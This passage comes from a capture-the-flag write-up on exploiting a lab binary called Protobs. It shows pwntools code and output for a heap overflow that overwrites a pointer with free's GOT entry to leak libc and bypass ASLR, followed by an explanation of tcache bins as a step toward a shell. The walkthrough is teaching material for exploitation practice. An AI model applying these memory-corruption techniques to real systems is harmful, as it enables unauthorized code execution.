 The third config will go into slot 0, and the description will overwrite the pointer to the description in slot 1 with the pointer to `free`.

```

root@kali# python3 ./pwn_protobs.py 
[+] Starting local process './Protobs': pid 17356
b'  [ Game                ]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAx/`\n  [ Contrast            ]: 1094795585\n  [ Gamma               ]: 1094795585\n  [ Resolution X-Axis   ]: 1094795585\n  [ Resolution Y-Axis   ]: 1094795585\n  [ Controller          ]: 1094795585\n  [ Description         ]: \xd0\x91\xd3$\xe0\x7f\n\n'
--Return--
> /media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/pwn_protobs.py(43)<module>()->None
-> pdb.set_trace()
(Pdb) 

```

It worked! In the description field there’s just some non-ascii stuff that is the address of `free`. I can clean up how I print a bit and add some math to calculate the libc base address:

```

new_config('dummy1', 0x18, 'to be deleted')   # slot 0
new_config('leak', 0x18, 'to be overwritten') # slot 1
del_config(0)
new_config(b'A'*0x50 + p64(Protobs.got["free"]), 0x18, 'B'*0x16) # slot 0
leaked_free = u64(print_config(1)[-8:-2].ljust(8, b"\x00"))
print(f'[+] Leaked free: 0x{leaked_free:x}')
libc_base = leaked_free - libc.sym["free"]
print(f'[+] libc base address: 0x{libc_base:x}')

```

```

root@kali# python3 ./pwn_protobs.py 
[+] Starting local process './Protobs': pid 17471
[+] Leaked free: 0x7fdf906c81d0
[+] libc base address: 0x7fdf9062f000

```

#### Heap tcache Bins

With the leak I’ve bypassed ASLR. I can now work to get a shell. I’ll notice that if I start the program, add a config, and then delete it, both of the freed buffers (config object and description buffer) are in [tcache bins](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/implementation/tcache/). The tcache are thread specific bins introduced in glic 2.26 (Ubuntu 17.10), and consist of 64 singly-linked lists or bins that can each hold up to seven same-sized chunks. When a freed buffer goes to tcache, it is left marked as in use, and the first word of the data is used as an entry in the linked list. So when the first buffer is added, the address of that buffer is added to the tcache’s starting list, and then a null terminator is added as the first word of data. If a second is added, it’s first word points to the original bin, and the tcache not points to it. And for different sized buffers, they end up in different lists.


 [ Game                ]: test
 [ Gamma               ]: 2
 [ Resolution X-Axis   ]: 3
 [ Resolution Y-Axis   ]: 4
 [ Controller          ]: 5
 [ Size of Description ]: 10
 [ Description         ]: descript
 [ Config Index    ]: 0
  [ Game                ]: test
  [ Gamma               ]: 2
  [ Resolution X-Axis   ]: 3
  [ Resolution Y-Axis   ]: 4
  [ Controller          ]: 5
  [ Description         ]: descript